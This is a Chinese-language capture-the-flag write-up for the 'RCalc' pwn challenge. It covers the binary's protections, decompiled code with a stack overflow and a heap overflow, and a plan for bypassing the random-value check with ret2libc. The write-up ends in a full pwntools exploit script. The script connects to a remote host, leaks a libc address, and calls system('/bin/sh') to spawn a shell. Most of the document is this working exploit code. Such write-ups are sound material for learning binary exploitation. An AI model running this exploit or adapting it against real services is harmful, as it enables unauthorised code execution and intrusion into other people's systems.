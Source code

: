 # RCalc

## 来源
World of Attack & Defense


## 难度

3 / 10

## 保护

 ```sh
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
 ```

## 简单描述

是一个计算器程序,先输入名字,后面可以使用4个运算,还能进行储存.

## vul

```c
__int64 sub_400FA2()
{
  __int64 result; // rax
  char v1; // [rsp+0h] [rbp-110h]
  __int64 v2; // [rsp+108h] [rbp-8h]

  v2 = sub_400AAB();
  printf("Input your name pls: ");
  __isoc99_scanf("%s", &v1); //vul 能堆栈溢出
  printf("Hello %s!\nWelcome to RCTF 2017!!!\n", &v1);
  puts("Let's try our smart calculator");
  sub_400E72("Let's try our smart calculator", &v1);
  result = sub_400B92();
  if ( result != v2 )
    quit();
  return result;
}

...
//储存功能
__int64 __fastcall sub_400E39(__int64 a1)
{
  __int64 v1; // rsi
  __int64 v2; // rdx
  __int64 result; // rax

  v1 = *(_QWORD *)(qword_6020F8 + 8);
  v2 = (*(_QWORD *)qword_6020F8)++;
  result = a1;
  *(_QWORD *)(v1 + 8 * v2) = a1; //若一直储存,能构成堆溢出
  return result;
}
```



## 知识点

stack overflow, heap overflow

## 思路

采用的是ret2libc,而要想实现,那么就要得绕过随机数检查,在输入名字的时候,就可以覆盖随机数,但是程序已经把随机数储存在堆里,而在对数进行运算后,可以对数进行储存,若多次储存数可以造成heap overflow,若覆盖到储存随机数的地方,那么我们就可以修改这个值,从而绕过随机数检查,后面就采用ret2libc的打法了,注意的是,scanf()不能读取\x09,\x0a,\x20,这几个字符,所以在利用的payload中不要出现,\x0a可以在后面.而puts的plt地址有\x20,所以不能使用puts来打印got,采用printf,而大部分got表中的地址都有\x20,那使用`__libc_start_main`就可以解决,还有采用printf打印的时候,会出现内存不可读现象,那就将rsi寄存器清空为0就可以解决.



## exp

```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-
# Author: I0gan

from pwn import *
#from LibcSearcher import LibcSearcher

context.log_level='debug'
#context(arch = 'i386', os = 'linux', log_level='debug')
#context(arch = 'amd64', os = 'linux', log_level='debug')

exeFile = 'RCalc'
libFile = '/lib/x86_64-linux-gnu/libc.so.6'

remoteIp = "124.126.19.106"
remotePort = 57257

LOCAL = 0
LIB   = 1

r   =  lambda x : io.recv(x)
ra  =  lambda   : io.recvall()
rl  =  lambda   : io.recvline(keepends = True)
ru  =  lambda x : io.recvuntil(x, drop = True)
s   =  lambda x : io.send(x)
sl  =  lambda x : io.sendline(x)
sa  =  lambda x, y : io.sendafter(x, y)
sla =  lambda x, y : io.sendlineafter(x, y)
ia  =  lambda : io.interactive()
c   =  lambda : io.close()
li    = lambda x : log.info('\x1b[01;38;5;214m' + x + '\x1b[0m')
db    = lambda   : gdb.attach(io)

#--------------------------Func-----------------------------
def ad(num1, num2):
	sla('Your choice:', '1')
	sla('integer:', str(num1) + '\n' + str(num2))
	sla('result?', 'yes')
	
#--------------------------Exploit--------------------------
def exploit():
	pop_rdi = 0x401123
	pop_rsi_r15 = 0x0000000000401121
	start = 0x401036

	p = 'A' * 0x108
	p += p64(0x1) # random num
	p += p64(0xdeedbeef)
	p += p64(pop_rdi)
	leak = '__libc_start_main'
	p += p64(exe.got[leak]) # scanf cannot read \x20

	p += p64(pop_rsi_r15) + p64(0) + p64(0) # for printf cannot read mem
	p += p64(exe.plt['printf'])
	p += p64(start) # cannot read 0x9

	sla('pls:', p)

	for i in range(0x20):
		ad(1, 2)
	ad(2, 2)
	ad(0x331, 0)

	ad(0x1, 0)
	sla('Your choice:', '5')
	
	lib.address = u64(ru('\x7f')[-5:] + '\x7f\x00\x00') - lib.sym[leak]
	li('libc_base ' + hex(lib.address))

	p = 'A' * 0x108
	p += p64(0x1) # random num
	p += p64(0xdeedbeef)
	p += p64(pop_rdi)
	p += p64(lib.search('/bin/sh').next()) # scanf cannot read \x20
	p += p64(lib.sym['system'])
	sla('pls:', p)

	for i in range(0x20):
		ad(1, 2)
	ad(2, 2)
	ad(0x331, 0)

	ad(0x1, 0)
	#db()
	sla('Your choice:', '5')


def finish():
	ia()
	c()

#--------------------------Main-----------------------------
if __name__ == '__main__':
	
	if LOCAL:
		exe = ELF(exeFile)
		if LIB:
			lib = ELF(libFile)
			io = exe.process(env = {"LD_PRELOAD" : libFile})
		else:
			io = exe.process()
	
	else:
		exe = ELF(exeFile)
		io = remote(remoteIp, remotePort)
		if LIB:
			lib = ELF(libFile)
	
	exploit()
	finish()

```

